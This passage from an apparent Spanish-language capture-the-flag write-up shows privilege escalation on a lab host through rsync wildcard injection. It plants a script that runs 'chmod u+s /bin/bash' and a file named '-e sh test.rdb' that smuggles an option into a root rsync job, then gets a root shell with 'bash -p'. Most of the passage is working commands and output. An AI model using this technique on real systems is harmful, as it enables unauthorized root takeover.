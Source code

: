 ```abap
--list-only              list the files instead of copying them
--bwlimit=RATE           limit socket I/O bandwidth
--stop-after=MINS        Stop rsync after MINS minutes have elapsed
--stop-at=y-m-dTh:m      Stop rsync at the specified point in time
--write-batch=FILE       write a batched update to FILE
--only-write-batch=FILE  like --write-batch but w/o updating dest
--read-batch=FILE        read a batched update from FILE
--protocol=NUM           force an older protocol version to be used
--iconv=CONVERT_SPEC     request charset conversion of filenames
--checksum-seed=NUM      set block/file checksum seed (advanced)
--ipv4, -4               prefer IPv4
--ipv6, -6               prefer IPv6
--version, -V            print the version + other info and exit
--help, -h (*)           show this help (* -h is help only on its own)

Use "rsync --daemon --help" to see the daemon-mode command-line options.
Please see the rsync(1) and rsyncd.conf(5) man pages for full documentation.
See https://rsync.samba.org/ for updates, bug reports, and answers
```

### Ahora debemos tratar de que esta tarea nos ejecute algo y podemos aprovechar este script para poner unos archivos en la ruta y así nos los pueda ejecutar

```abap
www-data@www:/tmp$ echo 'chmod u+s /bin/bash' > test.rdb
www-data@www:/tmp$ ls
test.rdb

www-data@www:/tmp$ cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ cp /tmp/test.rdb .
www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ ls
test.rdb
www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ touch -- '-e sh test.rdb'
www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ ls -l
total 4
-rw-r--r-- 1 www-data www-data  0 Sep 22 01:31 -e sh test.rdb
-rw-r--r-- 1 www-data www-data 20 Sep 22 01:30 test.rdb
```

### Ahora cuando se ejecuta nos da permisos SUID en bash

```abap
www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1029624 Nov  5  2016 /bin/bash
```

### Como ya tenemos permiso en bash podemos correrlo con la bandera -p

```abap
www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ bash -p
bash-4.3# whoami && hostname && id 
root
www
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```
